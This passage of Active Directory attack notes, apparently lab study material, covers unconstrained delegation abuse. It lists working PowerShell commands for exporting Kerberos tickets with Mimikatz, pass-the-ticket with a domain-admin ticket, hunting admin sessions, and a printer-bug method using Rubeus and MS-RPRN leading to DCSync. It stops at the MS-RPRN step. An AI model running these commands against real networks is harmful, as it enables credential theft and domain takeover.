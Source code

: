 > Ignore the domain controllers if they apeare in the list as they have Unconstrained Delegation enabled
{: .prompt-info }
### <span style="color:#F1C232">2. Check if a token is available and save to disk</span>

> **Get the admin token.**
> After compromising the computer with UD enabled, we can trick or wait for an admin connection
{: .prompt-tip }
```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

### <span style="color:#F1C232">3. Reuse of the DA token</span>

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt Administrator@krbtgt-DOMAIN.LOCAL.kirbi"'
```

## <span style="color:lightgreen">Invoke-Hunter</span>

### <span style="color:#F1C232">Pull any sessions if logged on with administrator (if no administrator sesson found)</span>

```powershell
Invoke-UserHunter -ComputerName dcorp-appsrv -Poll 100 -UserName Administrator -Delay 5 -Verbose
```

## <span style="color:lightgreen">Methodology/Steps (Printer Bug Method)</span>

- [x] 1. Same as above perform an OPTH attack to get an elevated shell as DA
- [x] 2. Set `Rubeus.exe` on monitor more to capture hashes
- [x] 3. Run `MS-RPRN.exe` to abuse the printer bug
- [x] 4. Copy the b64encoded ticket of administrator of the DC
- [x] 5. Now we can run a DCSync attack against DC using the injected ticket

## <span style="color:lightgreen">Rubeus.exe</span>
### <span style="color:#F1C232">1. Set on monitor mode on DA</span>

```powershell
.\Rubeus.exe monitor /interval:5 /nowrap
```

## <span style="color:lightgreen">MS-RPRN.exe</span>
### <span style="color:#F1C232">2. Abuse the printer bug from the uservm</span>
